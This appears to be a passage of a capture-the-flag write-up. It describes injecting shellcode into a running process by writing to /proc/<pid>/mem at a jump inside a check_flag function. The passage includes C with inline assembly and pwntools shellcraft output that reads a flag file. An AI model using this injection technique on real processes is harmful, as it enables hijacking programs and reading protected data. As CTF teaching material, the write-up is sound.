 ```c
    int pid;
    // well, we weren't allowed getpid so,
    // steal the pid from the caller's stack
    __asm__ __volatile__ (
        "mov %0, dword ptr [rbp - 0x4]\n"
        : "=r"(pid) ::);
    char pathbuf[64] = "/proc////////////mem";
    itoa_badly(pid, &pathbuf[15]);
```

Syscalls were performed with more inline assembly, this time lifted directly
from the musl sources. Part of my motivation in not using a libc, besides
binary size, is that libc requires a bunch more sections to be present in my
binary, and I did not want to have to research how to deal with those.

I chose to inject my stage 2 shellcode right at the point where the loop of
`check_flag` would jump back to the beginning as it is a position where it
likely will work most of the time.

Stage 2 shellcode was generated with pwntools `shellcraft`. It was fairly
trivial.

```c
    int fd = syscall2(SYS_open, (uint64_t)(void *)pathbuf, O_RDWR);

    /* disassemble check_flag
     * (...)
     * 0x00000000004022d9 <+167>:   mov    edi,0x1
     * 0x00000000004022de <+172>:   call   0x44f2e0 <sleep>
     * 0x00000000004022e3 <+177>:   jmp    0x40223a <check_flag+8>
     */
    void *tgt = (void *)0x4022e3;
    syscall3(SYS_lseek, fd, (uint64_t)tgt, SEEK_SET);

    //////////////////////////////////////////////////////////////
    // Now, just write shellcode into memory at the injection point.
    /*
     * In [4]: sh = shellcraft.amd64.cat('/home/user/flag', 1) + shellcraft.amd64.infloop()
     * In [5]: print(sh)
     *     / * push b'/home/user/flag\x00' * /
     *     mov rax, 0x101010101010101
     *     push rax
     *     mov rax, 0x101010101010101 ^ 0x67616c662f7265
     *     xor [rsp], rax
     *     mov rax, 0x73752f656d6f682f
     *     push rax
     *     / * call open('rsp', 'O_RDONLY', 0) * /
     *     push SYS_open / * 2 * /
     *     pop rax
     *     mov rdi, rsp
     *     xor esi, esi / * O_RDONLY * /
     *     cdq / * rdx=0 * /
     *     syscall
     *     / * call sendfile(1, 'rax', 0, 2147483647) * /
     *     mov r10d, 0x7fffffff
     *     mov rsi, rax
     *     push SYS_sendfile / * 0x28 * /
     *     pop rax
     *     push 1
     *     pop rdi
     *     cdq / * rdx=0 * /
     *     syscall
     *     jmp $
     * In [7]: [hex(x) for x in asm(sh)]
     */
```
